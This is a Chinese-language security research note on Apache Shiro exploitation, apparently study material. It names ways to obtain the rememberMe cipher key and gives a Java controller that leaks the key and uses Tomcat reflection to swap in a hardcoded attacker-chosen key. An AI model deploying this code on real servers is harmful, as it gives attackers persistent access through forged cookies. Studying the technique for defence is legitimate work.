

## 漏洞利用
### Key 修改

测试环境

- shiro 1.2.24

#### 获取key

- 方式1：getCipherKey()


- 方式2：爆破


#### 修改key

##### 方式1: 成员变量




爆破密钥


执行命令


##### 方式2: 成员方法 setCipherKey


#### 相关代码
`仅为实验性代码`

```java
package com.example.controller;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.shiro.web.mgt.CookieRememberMeManager;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Map;

@Controller
public class ShiroKeyController {
    @RequestMapping(value = "/getKey")
    public void getShiroKey(HttpServletResponse resp){
        try{
            byte[] key = new CookieRememberMeManager().getCipherKey();
            resp.getWriter().write("shiro key: \n" + new String(Base64.getEncoder().encode(key)));
        }catch (Exception ignored){}

    }
    @RequestMapping(value = "/changeKey")
    public void changeShiroKey(HttpServletResponse resp){
        try {
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            Field Configs = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);
            ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) filterConfigs.get("shiroFilterFactoryBean");
            Field filterDef = getField(applicationFilterConfig,"filterDef");
            FilterDef filterDefIns = (FilterDef)filterDef.get(applicationFilterConfig);
            Field filter = getField(filterDefIns,"filter");
            Object filterIns = filter.get(filterDefIns);
            Field securityM = getField(filterIns,"securityManager");
            org.apache.shiro.mgt.SecurityManager securityInstance = (org.apache.shiro.mgt.SecurityManager)securityM.get(filterIns);
            CookieRememberMeManager cookieRememberMeManager = (CookieRememberMeManager) getField(securityInstance,"rememberMeManager").get(securityInstance);
            byte[] cipherKey = java.util.Base64.getDecoder().decode("2AvVhdsgUs0FSA3SDFAdag==");
            // cookieRememberMeManager.setCipherKey(cipherKey);
            setFieldValue(cookieRememberMeManager,"encryptionCipherKey",cipherKey);
            setFieldValue(cookieRememberMeManager,"decryptionCipherKey",cipherKey);
            resp.getWriter().write("new shiro key: \n" + new String(Base64.getEncoder().encode(cipherKey)));
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void setFieldValue(Object object,String fieldName,Object fieldValue) throws Exception {
        Field field =  getField(object,fieldName);
        field.set(object,fieldValue);
    }

    public static Field getField(Object object,String fieldName) {
        Class<? extends Object> clas = object.getClass();
        Field field = null;
        while (clas != Object.class){
            try {
                field = clas.getDeclaredField(fieldName);
                break;
            } catch (NoSuchFieldException e){
                clas = clas.getSuperclass();
            }
        }
        if (field != null){
            field.setAccessible(true);
            return field;
        }else {
            return null;
        }
    }
}
```
